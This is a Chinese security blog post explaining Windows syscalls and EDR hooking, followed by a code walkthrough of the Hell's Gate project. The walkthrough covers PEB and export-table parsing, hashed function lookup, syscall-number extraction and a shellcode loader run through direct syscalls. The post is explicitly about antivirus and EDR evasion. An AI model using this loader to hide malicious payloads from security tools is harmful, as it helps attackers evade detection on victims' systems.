# Syscall原理及其地狱之门家族代码详解-先知社区

> **来源**: https://xz.aliyun.com/news/17898  
> **文章ID**: 17898

---

# Syscall原理及地狱之门家族代码分析

## Syscall原理

操作系统本身分为四层，R0层为系统内核层，R1-R2通常为驱动层，R3层为用户层。

R3用户层权限最低，R0层权限最高



Syscall（系统调用）是用户空间与操作系统内核之间的接口，它允许用户程序请求操作系统提供的服务。

具体来说syscall 是通过特定的指令将控制权从用户模式切换到内核模式，从而执行操作系统内核中的预定义服务，比如文件操作、进程管理、内存分配等。

比如我们在R3层写的任何代码，在windows系统大部分都是调用的Win32API的函数，而Win32 API 是 Windows 操作系统提供给用户层应用程序的一组接口，也是属于R3层的，它本身也不属于系统内核的函数，但是由于windows的设计思想就是高度封装所以实际上的R3 api是ntdll.dll中的函数，它本身的调用流程如下图所示



而在用户层到内核层的过程中就会用到syscall系统调用，比如我们用一个CreateThread函数逆向一下看一下



可以看到大体的汇编流程为

```
mov     r10, rcx; NtCreateThread
mov     eax, 4Eh ; 'N'
test    byte ptr ds:7FFE0308h, 1
jnz     short loc_18009F615
syscall                                 ; Low latency system call
retn
```

然后我们在继续观察一下别的函数 如CreateProcess



```
mov     r10, rcx; NtCreateProcess
mov     eax, 4Eh ; '0BCh'
test    byte ptr ds:7FFE0308h, 1
jnz     short loc_1800A4EC5
syscall                                 ; Low latency system call
retn
```

可以看到这两个函数大体的汇编结构是一样的，只有给eax寄存器赋值的时候传入的参数不同，这里给eax传递的这个参数叫系统调用号（SSN system-call-number）系统会根据传递的SSN来决定调用哪个NT函数

`syscall技术的技术核心就在这，通过传入不同的且唯一的SSN以此来决定调用哪个内核函数。`

syscall的常用写法有如下几种:

​ windows64位上的`Syscall`写法:

```
mov     r10, rcx            ; 将 rcx 中的参数移动到 r10（系统调用规范要求）
mov     eax, 系统调用号      ; 将系统调用号存入 eax
syscall                      ; 调用内核服务
retn                         ; 返回
```

列如NtCreateThread函数

```
mov     r10, rcx            ; NtCreateThread 的第一个参数
mov     eax, 0x4E           ; NtCreateThread 系统调用号为 0x4E
syscall                      ; 调用内核
retn                         ; 返回
```

Windows x86 上的 `int 0x2E` 写法

在 Windows 32 位系统上，`syscall` 并不适用，取而代之的是使用中断指令 `int 0x2E` 来触发系统调用。

```
mov     eax, 系统调用号      ; 将系统调用号放入 eax
mov     edx, 参数地址         ; 将参数指针放入 edx
int     0x2E                 ; 执行中断，进入内核态
```

### Edr的工作原理

Edr的工作原理在于对NT函数进行inline hook，也就是HOOK入口函数的前几条汇编指令，跳转到自定义函数的位置，在执行完自己定义的函数之后跳转回原来的入口函数,有点类似于修改PE的OEP，不过区别在于inline hook是在**运行时**针对内存中**局部函数或代码段**的劫持,**修改PE的OEP** 是在**程序启动时**对程序**入口点**的劫持。

当我们自己使用syscall技术的时候，就可以绕过Edr对NT函数的hook，可以减少被Edr检测到的概率

**总结一下Syscall免杀的技术原理**

**Syscall免杀技术的核心原理**在于通过**直接调用内核系统调用（syscall）**，跳过常规的用户态 API 路径，绕过杀毒软件的 API Hooking，从而避免其检测和拦截。

## 地狱之门项目分析

项目地址：<https://github.com/am0nsec/HellsGate/>

非常经典所以学习一下

项目结构如下:



### Main.c

我们首先来看main.c的功能

首先可以看到调用了RtlGetThreadEnvironmentBlock函数，这个函数用于获取PEB和TEB

然后检测TEB和PEB是否有效，并且操作系统是否为win10 不是则退出

```
INT wmain() {
//获取TEB
    PTEB pCurrentTeb = RtlGetThreadEnvironmentBlock();
    //获取PEB
    PPEB pCurrentPeb = pCurrentTeb->ProcessEnvironmentBlock;
    //检查PEB和TEB是否有效，和检测系统是不是为win10
    if (!pCurrentPeb || !pCurrentTeb || pCurrentPeb->OSMajorVersion != 0xA)
        return 0x1;
```

```
//判断是64位系统还是32位系统，因为64和32位的PEB偏移值不一样
PTEB RtlGetThreadEnvironmentBlock() {
#if _WIN64
    return (PTEB)__readgsqword(0x30);
#else
    return (PTEB)__readfsdword(0x16);
#endif
}
```

然后讲解一下PEB和TEB是什么  
TEB

```
TEB指的是线程环境块" Thread Environment Block  "，用于存储线程状态信息和线程所需的各种数据。每个线程都有一个对应的TEB结构体，并且 TEB 结构的其中一个成员就是 PEB。
```

PEB

```
进程环境块，包含系统与当前进程关联的用户模式下的所有参数，比如载入了的DLL的名字，进程开始处的参数，堆地址，检查当前进程是否处于调试状态以及DLL的镜像基地址等，
```

几乎所有的PE文件都会把kernel32.dll和ntdll.dll加载到内存当中，这样的话我们就可以同过获取PEB来拿到ntdll.dll的基址。

**为什么不用GetModuleHandle函数和GetProcAddress函数来拿到句柄和地址？**

因为这两个函数本身是作用用户态的API函数的，当你用这两个函数来获得句柄的和地址本身就会被杀软检测到，而syscall技术的目的就是要直接与内核进行交互，所以不用这俩函数

然后继续TEB和PEB我们可以通过<https://www.vergiliusproject.com直接来查看这俩的结构>

可以看到在偏移为0x60的位置，为PEB的位置



然后跟进PEB可以在0x18处看到以一个Ldr指针，它是一个\_PEB\_LDR\_DATA结构体，它里面存储了各种与模块加载相关的信息，如进程加载的所有模块（DLL）的信息



然后我们继续跟进LDR,可以看到`0x10,0x20,0x30`处存在三个双向链表



这三个双向链表里面存储的内容几乎差不多，唯一的区别在于存储DLL的顺序不同

**InLoadOrderModuleList**：按照模块加载顺序排列的链表。

**InMemoryOrderModuleList**：按照模块在内存中的顺序排列的链表。

**InInitializationOrderModuleList**：按照模块初始化顺序排列的链表。

继续跟进来可以看到结构如下：



Flink指向链表的下一个结构，而Blink指向上一个结构，但这里他们指向的不是另外一个链表，而是另外一个模块下面的`_LDR_DATA_TABLE_ENTRY`结构下面的`InLoadOrderLinks,InMemoryOrderLinks,InInitializationOrderLinks`



通过这样的办法可以把多个模块给串联起来。

假设有三个模块 `ntdll.dll`、`kernel32.dll` 和 `user32.dll`，加载顺序依次是：

```
ntdll.dll -> kernel32.dll -> user32.dll
```

这些模块会通过它们的 `_LDR_DATA_TABLE_ENTRY` 结构体中的 `InLoadOrderLinks` 字段互相链接：

1. `ntdll.dll` 的 `InLoadOrderLinks.Flink` 指向 `kernel32.dll` 的节点。
2. `kernel32.dll` 的 `InLoadOrderLinks.Flink` 指向 `user32.dll` 的节点。

同时，`ntdll.dll`、`kernel32.dll` 和 `user32.dll` 的详细信息（例如基地址和名称）都保存在它们各自的 `_LDR_DATA_TABLE_ENTRY` 结构体中。

因为这里只需要了解一下PEB和TEB就可以了所以就不在继续写了。

然后获取到NTDLL的地址，这里它通过找到PEB进入到LDR结构体，然后通过InMemoryOrderModuleList.Flink找到第一个模块0x10的位置，这个位置一般就是NTdll的模块地址，为什么这里确定？这是因为在模块加载的顺序性上通常最先加载的就是`ntdll.dll`，第二个模块是 `kernel32.dll`，第三个模块是 `user32.dll`。

```
PLDR_DATA_TABLE_ENTRY pLdrDataEntry = (PLDR_DATA_TABLE_ENTRY)((PBYTE)pCurrentPeb->LoaderData->InMemoryOrderModuleList.Flink->Flink - 0x10);
```

我们也可以通过汇编来找到，在64位系统中GS寄存器的值就是TEB的位置，然后在加上我们刚刚在图上看到的偏移直接用mov指令赋值就好了，如

```
mov rax, gs:[60h]    ; rax 指向 PEB
mov rax, [rax+18h]   ; rax 指向 PEB_LDR_DATA
mov rax, [rax+30h]   ; rax 指向 InInitializationOrderModuleList.Flink
mov rax, [rax]       ; 第一个模块 (ntdll.dll)
mov rax, [rax]       ; 第二个模块 (kernel32.dll)
mov rax, [rax+10h]   ; 第三个模块的 DllBase (user32.dll)

```

然后就是获取导出表，这里是通过上面获取到的NTdll的模块基地址里面的DLLbase的值来获取到导出表,这样就避免了使用获取句柄函数,然后还判断了导出表是否为空

```
PIMAGE_EXPORT_DIRECTORY pImageExportDirectory = NULL;
    if (!GetImageExportDirectory(pLdrDataEntry->DllBase, &pImageExportDirectory) || pImageExportDirectory == NULL)
        return 0x01;
```

```
BOOL GetImageExportDirectory(PVOID pModuleBase, PIMAGE_EXPORT_DIRECTORY* ppImageExportDirectory) {
    // Get DOS header
    PIMAGE_DOS_HEADER pImageDosHeader = (PIMAGE_DOS_HEADER)pModuleBase;
    if (pImageDosHeader->e_magic != IMAGE_DOS_SIGNATURE) {
        return FALSE;
    }

    // Get NT headers
    PIMAGE_NT_HEADERS pImageNtHeaders = (PIMAGE_NT_HEADERS)((PBYTE)pModuleBase + pImageDosHeader->e_lfanew);
    if (pImageNtHeaders->Signature != IMAGE_NT_SIGNATURE) {
        return FALSE;
    }

    // Get the EAT
    *ppImageExportDirectory = (PIMAGE_EXPORT_DIRECTORY)((PBYTE)pModuleBase + pImageNtHeaders->OptionalHeader.DataDirectory[0].VirtualAddress);
    return TRUE;
}
```

然后这里作者还自定义了一个结构体，用于存放取出的nt函数的地址。

```
typedef struct _VX_TABLE_ENTRY {
    PVOID   pAddress;     // 系统调用对应的函数地址
    DWORD64 dwHash;       // 系统调用的哈希值
    WORD    wSystemCall;  // 系统调用号
} VX_TABLE_ENTRY, *PVX_TABLE_ENTRY;


typedef struct _VX_TABLE {
    VX_TABLE_ENTRY NtAllocateVirtualMemory;    // NtAllocateVirtualMemory 的系统调用表项
    VX_TABLE_ENTRY NtProtectVirtualMemory;     // NtProtectVirtualMemory 的系统调用表项
    VX_TABLE_ENTRY NtCreateThreadEx;           // NtCreateThreadEx 的系统调用表项
    VX_TABLE_ENTRY NtWaitForSingleObject;      // NtWaitForSingleObject 的系统调用表项
} VX_TABLE, *PVX_TABLE;

```

`PVOID pAddress`：存储系统调用对应的函数的地址（例如，存储某个 `ntdll.dll` 中的函数地址）。

`DWORD64 dwHash`：是一个 64 位的哈希值，用来标识系统调用

`WORD wSystemCall`：存储系统调用号（`System Call Number`），即 `syscall` 指令执行时所使用的调用号。系统调用号是与每个 Windows 内核函数唯一对应的数值。

然后来到了核心代码的位置

它这里首先初始化了Table结构体里面的四个字段，然后给四个字段预先定义了hash值，这里看网上的文章大家都说用的是 djb2算法

然后调用了GetVxTableEntry函数从导出表里面获取到 `pAddress`（函数地址）和 `wSystemCall`（系统调用号）等字段并且填充进去

然后还会检测是否正常获取到，如果没有正常获取则返回0x1并且退出

```
VX_TABLE Table = { 0 };
    Table.NtAllocateVirtualMemory.dwHash = 0xf5bd373480a6b89b;
    if (!GetVxTableEntry(pLdrDataEntry->DllBase, pImageExportDirectory, &Table.NtAllocateVirtualMemory))
        return 0x1;

    Table.NtCreateThreadEx.dwHash = 0x64dc7db288c5015f;
    if (!GetVxTableEntry(pLdrDataEntry->DllBase, pImageExportDirectory, &Table.NtCreateThreadEx))
        return 0x1;

    Table.NtProtectVirtualMemory.dwHash = 0x858bcb1046fb6a37;
    if (!GetVxTableEntry(pLdrDataEntry->DllBase, pImageExportDirectory, &Table.NtProtectVirtualMemory))
        return 0x1;

    Table.NtWaitForSingleObject.dwHash = 0xc6a2fa174e551bcb;
    if (!GetVxTableEntry(pLdrDataEntry->DllBase, pImageExportDirectory, &Table.NtWaitForSingleObject))
        return 0x1;
```

然后我们来看GetVxTableEntry函数

先看第一部分，获取导出表的函数地址、名称和序号

```
PDWORD pdwAddressOfFunctions = (PDWORD)((PBYTE)pModuleBase + pImageExportDirectory->AddressOfFunctions);
PDWORD pdwAddressOfNames = (PDWORD)((PBYTE)pModuleBase + pImageExportDirectory->AddressOfNames);
PWORD pwAddressOfNameOrdinales = (PWORD)((PBYTE)pModuleBase + pImageExportDirectory->AddressOfNameOrdinals);

```

然后再看第二部分，这里用于遍历出所有的函数名称，然后通过名称找到序号然后找到函数的地址

```
for (WORD cx = 0; cx < pImageExportDirectory->NumberOfNames; cx++) {
    PCHAR pczFunctionName = (PCHAR)((PBYTE)pModuleBase + pdwAddressOfNames[cx]);
    PVOID pFunctionAddress = (PBYTE)pModuleBase + pdwAddressOfFunctions[pwAddressOfNameOrdinales[cx]];

```

然后看第三部分,这里用djb2算法加密函数的名字，如果与之前的预定义的hash相等，就表示找到了这个函数，并将该函数的地址存储在 `pVxTableEntry->pAddress`，也就是接收的第三个参数，就是之前定义的结构体

```
if (djb2(pczFunctionName) == pVxTableEntry->dwHash) {
    pVxTableEntry->pAddress = pFunctionAddress;
```

然后第四部分，检测目标函数是不是被hook了，`0x0f 0x05`：表示系统调用指令 `syscall`，如果直接遇到 `syscall`，则该函数可能不适合处理，返回 `FALSE`。

`0xc3`：表示 `ret` 指令，如果遇到 `ret`，则说明函数结构异常，直接返回 `FALSE`。

```
if (*((PBYTE)pFunctionAddress + cw) == 0x0f && *((PBYTE)pFunctionAddress + cw + 1) == 0x05)
    return FALSE;

if (*((PBYTE)pFunctionAddress + cw) == 0xc3)
    return FALSE;
```

然后第四部分，这一部分用于解析系统调用号

```
if (*((PBYTE)pFunctionAddress + cw) == 0x4c//判断是不是MOV R10, RCX
    && *((PBYTE)pFunctionAddress + 1 + cw) == 0x8b //判断是不是MOV EAX, <syscall number>
    && *((PBYTE)pFunctionAddress + 2 + cw) == 0xd1 //确定具体寄存器
    && *((PBYTE)pFunctionAddress + 3 + cw) == 0xb8 //检验完整性
    && *((PBYTE)pFunctionAddress + 6 + cw) == 0x00 //下面这两个用于检测高位是不是位0000
    && *((PBYTE)pFunctionAddress + 7 + cw) == 0x00) {//因为系统调用号通常较小，高位通常都是0000
    BYTE high = *((PBYTE)pFunctionAddress + 5 + cw);//提取系统调用高位
    BYTE low = *((PBYTE)pFunctionAddress + 4 + cw);//提取系统调用低位
    pVxTableEntry->wSystemCall = (high << 8) | low;//左移进行low运算，组成完整的系统调用号存在wSystemCall里面
    break;
}

```

然后最终执行payload

然后这一部分就很简单了

分配虚拟内存。

写入 shellcode。

修改内存保护使其可执行。

创建线程来执行 shellcode。

等待线程执行完成。

```
Payload(&Table);
```

```
BOOL Payload(PVX_TABLE pVxTable) {
    NTSTATUS status = 0x00000000;
    char shellcode[] = "\x90\x90\x90\x90\xcc\xcc\xcc\xcc\xc3";

    // Allocate memory for the shellcode
    PVOID lpAddress = NULL;
    SIZE_T sDataSize = sizeof(shellcode);
    HellsGate(pVxTable->NtAllocateVirtualMemory.wSystemCall);
    status = HellDescent((HANDLE)-1, &lpAddress, 0, &sDataSize, MEM_COMMIT, PAGE_READWRITE);

    // Write Memory
    VxMoveMemory(lpAddress, shellcode, sizeof(shellcode));

    // Change page permissions
    ULONG ulOldProtect = 0;
    HellsGate(pVxTable->NtProtectVirtualMemory.wSystemCall);
    status = HellDescent((HANDLE)-1, &lpAddress, &sDataSize, PAGE_EXECUTE_READ, &ulOldProtect);

    // Create thread
    HANDLE hHostThread = INVALID_HANDLE_VALUE;
    HellsGate(pVxTable->NtCreateThreadEx.wSystemCall);
    status = HellDescent(&hHostThread, 0x1FFFFF, NULL, (HANDLE)-1, (LPTHREAD_START_ROUTINE)lpAddress, NULL, FALSE, NULL, NULL, NULL, NULL);

    // Wait for 1 seconds
    LARGE_INTEGER Timeout;
    Timeout.QuadPart = -10000000;
    HellsGate(pVxTable->NtWaitForSingleObject.wSystemCall);
    status = HellDescent(hHostThread, FALSE, &Timeout);

    return TRUE;
}
```

然后手搓Syscall的部分则由外部外部asm文件提供

```
; Hell's Gate
; Dynamic system call invocation 
; 
; by smelly__vx (@RtlMateusz) and am0nsec (@am0nsec)

.data
    wSystemCall DWORD 000h

.code 
    HellsGate PROC
        mov wSystemCall, 000h
        mov wSystemCall, ecx
        ret
    HellsGate ENDP

    HellDescent PROC
        mov r10, rcx
        mov eax, wSystemCall

        syscall
        ret
    HellDescent ENDP
end

```

总结

通过从PEB里面拿到Ntdll的函数基地址，然后遍历ntdll导入表，定位函数的地址，然后获取系统调用号

需要一块没有被hook的nt函数地址,否则就没有办法拿到ssn

实现了动态获取 SSN。

​

## **TartarusGate 地狱之门进阶版**

本来还有个TartarusGate的，但是突然发现TartarusGate版本github已经下线了

项目地址 https://github.com/trickster0/TartarusGate/

项目结构如下:



在地狱之门的源码里面，我们知道如果EdrHook了NT函数，那么地址之门就没有办法拿到SSN，TartarusGate弥补了这一个缺点

原理：

因为EDR不可能HOOK所有的NT函数,有时候某个NT函数被Hook了，但是它的邻居未必被Hook，这个时候我们就可以从SSN出发，通过加减步数的办法，就可以得到没有被Hook函数的SSN

但是这种办法要看运气的，SSN的分配并不遵守什么规定，完全是看微软想怎么定义，所以这里提供两个网站可以直接查看SSN

◆https://j00ru.vexillium.org/syscalls/nt/32/

◆https://j00ru.vexillium.org/syscalls/nt/64/

